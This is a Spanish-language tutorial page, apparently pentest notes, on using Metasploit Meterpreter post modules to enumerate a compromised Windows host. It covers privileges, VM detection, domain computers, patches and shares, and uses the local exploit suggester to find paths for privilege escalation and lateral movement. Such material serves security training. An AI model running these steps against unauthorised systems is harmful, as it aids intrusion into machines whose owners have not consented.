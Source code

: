# Windows – Automating Local Enumeration con Metasploit

Cuando se obtiene acceso a una máquina Windows mediante **Meterpreter**, es importante **automatizar la recolección de información** del sistema. Metasploit incluye múltiples módulos `post/windows/gather/*` para simplificar esta tarea.

---

## 1. Preparación
1. Ganas acceso con **Meterpreter**.  
2. Envías la sesión al **background**:
```bash
meterpreter > background
```
3. Ver sesiones activas:
```bash
msf6 > sessions -i
```

---

## 2. Comprobar privilegios del usuario
```bash
use post/windows/gather/win_privs
set SESSION 1
run
```
- Lista privilegios del usuario actual.
- Útil para detectar si el usuario puede **escalar privilegios** (ej. `SeImpersonatePrivilege`).

---

## 3. Detectar si es una máquina virtual
```bash
use post/windows/gather/checkvm
set SESSION 1
run
```
- Detecta si la víctima está en **VMware, VirtualBox, Hyper-V**, etc.
- Puede ayudar a identificar entornos de laboratorio.

---

## 4. Enumerar equipos del dominio/red
```bash
use post/windows/gather/enum_computers
set SESSION 1
run
```
- Enumera **otros equipos accesibles** desde la máquina comprometida.
- Muy útil para **pivoting** y moverse lateralmente.

---

## 5. Enumerar parches aplicados
```bash
use post/windows/gather/enum_patches
set SESSION 1
run
```
- Identifica **parches instalados o faltantes** en la víctima.
- Permite cruzar con exploits conocidos para escalar privilegios.

---

## 6. Enumerar recursos compartidos
```bash
use post/windows/gather/enum_shares
set SESSION 1
run
```
- Lista carpetas compartidas (ej. `C$`, `ADMIN$`).
- Puede revelar información sensible o accesos administrativos.

---

## 7. Módulo para buscar exploits locales
```bash
use post/multi/recon/local_exploit_suggester
set SESSION 1
run
```
- Analiza la configuración y versión de Windows.
- Sugiere posibles **exploits locales** para escalada de privilegios.

